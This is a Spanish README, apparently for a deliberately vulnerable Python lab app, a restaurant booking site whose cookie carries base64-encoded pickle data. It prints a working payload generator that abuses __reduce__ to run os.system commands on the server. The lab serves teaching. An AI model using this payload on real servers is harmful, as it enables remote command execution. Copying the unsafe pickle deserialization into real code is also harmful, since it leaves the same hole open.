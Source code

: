 ## 🚨 Deserialization Attack (Deserialization-Lab)
- Aplicación vulnerable a deserialización de datos en python (librería pickle).
- Se trata de una aplicación web para hacer reservas en un restaurante. 

Tras realizar una reserva, los datos viajan serializados y en base64 en una cookie. Posteriormente, los datos se deserializan para ser mostrados por pantalla.

Un atacante podria generar un payload malicioso como este para ejecutar comandos en el servidor:

```python
import pickle
import base64
import os

class MaliciousClass:
    def __reduce__(self):
        return (os.system, ('{comando a ejecutar}',))

malicious_object = MaliciousClass()

pickled_data = pickle.dumps(malicious_object)

base64_encoded_data = base64.b64encode(pickled_data).decode('utf-8')

print(base64_encoded_data)
```

Esto ocurre porque al deserializar los datos se llama al método **\_\_reduce\_\_**, el cual ejecuta comandos en el servidor con la llamada **os.system()**.